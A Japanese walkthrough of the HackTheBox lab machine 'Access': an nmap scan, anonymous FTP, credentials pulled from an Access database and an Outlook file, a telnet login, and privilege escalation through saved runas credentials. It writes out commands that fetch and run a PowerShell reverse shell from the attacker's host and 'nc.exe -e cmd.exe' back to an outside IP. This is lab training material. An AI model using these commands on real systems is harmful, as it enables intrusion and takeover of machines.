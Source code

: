 # はじめに
HackTheBoxの攻略などを自分用にまとめたものです。  
主に記録用として記しています。  
<img src="http://www.hackthebox.eu/badge/image/185549" alt="Hack The Box">  
GitHub(ペネトレーションテスト用チートシート):  
https://github.com/yukitsukai47/PenetrationTesting_cheatsheet  
Twitter:@yukitsukai1731

# Access
![スクリーンショット 2020-08-25 22.02.54.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/a9ffae58-1582-9df7-7c2a-c2069ae02a1c.png)

HackTheBox公式より
Access is an "easy" difficulty machine, that highlights how machines associated with the physical security of an environment may not themselves be secure. Also highlighted is how accessible FTP/file shares often lead to getting a foothold or lateral movement. It teaches techniques for identifying and exploiting saved credentials.

Accessは「簡単」な難易度のマシンであり、環境の物理的なセキュリティに関連するマシンが、それ自体が安全ではないかもしれないことを強調しています。また、アクセス可能なFTPファイル共有がどのようにして足場を得たり、横移動をしたりすることが多いのかが強調されています。保存されたクレデンシャルを特定して悪用するためのテクニックを教えてくれます。

# Recon(偵察)
Access(10.10.10.98)に対して、スキャンを行います。
まずnmapでスキャンを開始します。

## nmap 

```
nmap -sC -sV -oN nmap/initial 10.10.10.98 
```

- -sC...デフォルトスクリプトでスキャン
- -sV...バージョン検出
- -p-...全ポートスキャン
- -oN...通常出力

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-18 09:13 EDT
Stats: 0:00:42 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 09:14 (0:00:11 remaining)
Nmap scan report for 10.10.10.98
Host is up (0.29s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst:
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 205.51 seconds
```

この結果から、21,23,80番ポートが空いていることが分かります。  
まずは80番ポートを確認してみますが、特にこれといった情報は得られませんでした。
![コメント 2020-08-19 160049.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/f27b4ae4-2584-de00-6c5b-8051941b75a8.png)

## ftp(Microsoft ftpd)
21番ポートで動作しているftpはanonymous loginが許可されているので、ログインして探索を行います。  
ここではbackup.mdb,Access Control.zipというファイルを見つけることができます。  
getコマンドでダウンロードを行うのですが、ASCIIモードになっているためこのままダウンロードしてしまうとファイルが開けない状態になります。これはtype binaryコマンドでbinaryモードに変更してからgetコマンドでダウンロードすることで解決できます。
![コメント 2020-08-20 150428.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/e703a476-64c3-7c08-5a66-3c26c7c8d60c.png)

まずはbackup.mdbについて調べます。  
拡張子mdbは、Microsoft Access Databaseファイルを表します。  
![コメント 2020-08-19 170138.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/fe6e2ecd-14e1-c7d6-382f-f45add0361f1.png)

Windowsにbackup.mdbを転送して、Accessを用いてファイルを閲覧します。  
中でもauth_userテーブルを確認すると、以下の資格情報を確認することができます。

![コメント 2020-08-20 151213.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/9223f9d1-2457-fc18-b57e-7600ae981574.png)

|  username  |  password  |
| --- | --- |
| admin | admin |
|  engineer  |  access4u@security  |
|  backup_admin  |  admin  |

次にもう一つ入手したファイルであるAccess Control.zipというファイルを展開します。  
パスワードで保護されているため、展開時にパスワードを求められます。
![コメント 2020-08-26 210254.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/d86e5b36-81a2-f8be-7ad0-54faaf88c07e.png)

現在入手しているadminとaccess4u@securityの2つのパスワードを試してみると、展開に成功しAccess Control.pstファイルを手に入れることができます。
![コメント 2020-08-20 152305.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/a8434682-442c-b83e-7d97-d443196f3217.png)
pstファイルはoutlookのファイルなので、こちらもWindowsに転送して中身を確認してみます。
![コメント 2020-08-20 161906.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/1406932f-2964-68ed-90bf-55cd35a1f421.png)

securityアカウントのパスワードを4Cc3ssC0ntr0llerに変更したとの記載がされていることが確認できます。

# exploitation(侵入)
## telnet
先ほど入手した資格情報を用いてtelnetで接続を行います。

```
telnet 10.10.10.98

password:4Cc3ssC0ntr0ller
```
無事にログインすることができます。
![コメント 2020-08-20 162622.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/4bc90d73-ffb3-4377-5915-6d70997f4e14.png)

このままだとbackspaceを打つこともできないシェルなので、nishangのInvoke-PowerShellTcp.ps1使用して、より使いやすいシェルを取得します。  
https://github.com/samratashok/nishang

```
mv Invoke-PowerShellTCP.ps1 nishang.ps1
```

nishang.ps1(Invoke-PowerShellTcp.ps1)を編集し、最後の行に下記の情報を追記します。  
-IPAddressには自身のIPアドレス  
-Portには待ち受けるポート番号  
を記載します。
![コメント 2020-08-26 220514.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/a9e63ddf-754f-ee7e-17e9-4ee312ff38a8.png)

nishang.ps1が配置されているディレクトリではpython3を使用して受け渡すためのサーバを立ち上げます。

```
python3 -m http.server 9001
```

また通信を待ち受けるようにnetcatをセットしておきます。

```
netcat -lvnp 9000
```

そしてtelnetで接続しているマシンでは下記のコマンドを実行します。

```
powershell "IEX(New-Object Net.webclient).downloadString('http://<自身の IP>:9001/nishang.ps1')"
```

これで快適なシェルを手に入れることができました。
![コメント 2020-08-26 214932.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/43ecfb9b-6b8a-fd50-817a-6690c54cf030.png)

# Privileges Escalation(権限昇格)
マシンを探索すると、C:\Users\Public\Desktopに"ZKAccess3.5 Security System.lnk"というファイルを見つけることができ、runasコマンドと/savecredオプションについて記載されていることが分かります。

runasコマンドを使用することで別のユーザとしてコマンドを実行することができ、/savecredオプションを使用するとパスワードなしでコマンドを実行させることができます。
![コメント 2020-08-26 213650.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/89b3b7ed-cdd9-460c-64cc-00fcc934838f.png)
cmdkey /listコマンドを使用してマシンに保存されている資格情報を表示します。
![コメント 2020-08-26 213715.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/51963fe2-4bcd-10c7-5c6e-66c898a98cbd.png)
root権限のシェルを手に入れるため自身の環境からマシンへnetcatを送る準備をします。

```
cp /usr/share/windows-resources/binaries/nc.exe ./
python3 -m http.server 9001
```

マシンで下記のコマンドを実行し、nc.exeを受け取ります。このときcertutil.exeなどを利用してもどちらでもいいです。

```
powershell -c (New-Object Net.WebClient).DownloadFile('http://10.10.14.16:9001/nc.exe', 'nc.exe')
```
最後に自身の環境でnetcatリスナーをセットしてから、マシンでrunas /savecredコマンドを用いてnc.exeを使用します。

```
runas /savecred /user:Administrator "nc.exe -e cmd.exe 10.10.14.16 1234"
```

![コメント 2020-08-26 222233.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/2966c687-1bfd-50b5-9528-b20ef79f3e36.png)
お疲れさまでした。  
root権限を取得することができました。
